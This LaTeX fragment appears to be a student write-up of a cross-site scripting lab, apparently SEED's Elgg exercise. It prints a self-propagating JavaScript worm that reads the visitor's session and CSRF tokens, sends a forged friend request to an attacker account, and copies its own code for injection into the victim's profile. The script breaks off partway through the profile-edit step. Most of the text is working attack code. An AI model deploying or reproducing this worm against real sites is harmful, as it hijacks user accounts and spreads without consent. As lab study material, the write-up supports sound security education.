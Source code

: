 \documentclass[12pt]{article}
\begin{document}
For the second part, we need to obtain a copy of the script from the web page or we can just copy paste the entire thing. We use the DOM API to retrieve a copy of the script in the following way:
\begin{verbatim}
<script id="worm">
	var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
	var jsCode = document.getElementById("worm").innerHTML;
	var tailTag = "</" + "script>";
	var wormCode = headerTag + jsCode + tailTag;
</script>
\end{verbatim}

The full script is the following:
\begin{verbatim}
<script id="worm" type="text/javascript">
    window.onload = function () {
        // First part: Send Samy a friend request from the visitor's account
        var ts = elgg.security.token.__elgg_ts; // Time Stamp
        var token = elgg.security.token.__elgg_token; // Security Token
        var userName = elgg.session.user.username;
        var guid = elgg.session.user.guid;
        var SamyID = 59;
        if (guid == SamyID) return; // no attack if Samy is the visitor
        var sendurl = `/action/friends/add?friend=${SamyID}&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;
        //Create and send Ajax request to add friend
        var Ajax1 = new XMLHttpRequest();
        Ajax1.open("GET", sendurl, true); // last boolean value is for asynchronous request making
        Ajax1.setRequestHeader("Host", "www.seed-server.com");
        Ajax1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax1.send();

        // Second part: Modify the visitor's profile
        var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
        var jsCode = document.getElementById("worm").innerHTML;
        var tailTag = "</" + "script>";
        var wormCode = headerTag + jsCode + tailTag;
        var sendurl = "/action/profile/edit";


\end{verbatim}
\end{document}

